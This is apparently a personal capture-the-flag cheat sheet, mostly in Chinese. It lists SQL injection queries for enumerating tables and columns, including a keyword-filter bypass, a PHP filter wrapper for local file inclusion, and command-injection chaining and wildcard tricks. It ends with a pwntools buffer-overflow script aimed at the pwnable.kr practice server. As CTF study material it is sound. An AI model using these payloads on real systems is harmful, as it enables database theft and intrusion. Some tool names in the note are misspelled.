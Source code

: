 # CTF note
## WEB

### SQL injection

select database()

group_concat(table_name) from information_schema.tables where table_schema=‘database()’
再看某個資料庫的table (單引號要提換成實際database name)

group_concat(column_name) from information_schema.columns where table_name='wargame2key'-- -

or (尾端單引號內容可換成hex 然後不需要單引號 , 不行的話試試看單引號不要拿掉)

group_concat(table_name)/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_schema=0x74657374#

---

已知欄位數量 database()名稱

(`limit`參數為開始欄位id,顯示數量)

查看表個名:
(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='置換成db名稱' limit 0,1)

查看欄位名:
(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='置換成表格名稱' limit 1,1)

取得欄位內容:
(select flag from flag limit 1,1)

### LFI

> ?page=`php://filter/read=convert.base64-encode/resource=path`

### command injection

**串接指令** : `反引號` , `&&` , `|` , `;`

**讀取檔案** : `cat` , `head` , `tail` , `sort` , `more`

**檔名被過濾** : 萬用字元繞過 (ex:flag.txt --> `cat fla*`)

## PWN

查看GOT : `readelf -a <filename>`

### asm intel

參數存入rigister順序 `printf(rdi,rsi,rdx,rcx,r8,r9)`

[ref](http://abcdxyzk.github.io/blog/2012/11/23/assembly-args/)

### reverse

- objump -d -M intel filename

### pwnalbe

- 32bit frame

  - gcc -m32

- protect
  
  - gcc -fno-stack-protector file.c(關閉canary)

- gdb調用技巧

  - disas main

  - info func
 
  - x $ebp+8

- pwntools
 
  - OFFSET  

    - cyclib(50)
 
    - cyclib_find('aa') 

`pwntools 基本用法`
```python
from pwn import *
context(log_level = 'debug')
playload = 'A'*52 + p32(0xcafebabe)
r = remote('pwnable.kr',9000)
#r.recvuntil('overflow me :')
r.send(playload)
r.interactive()
```
w
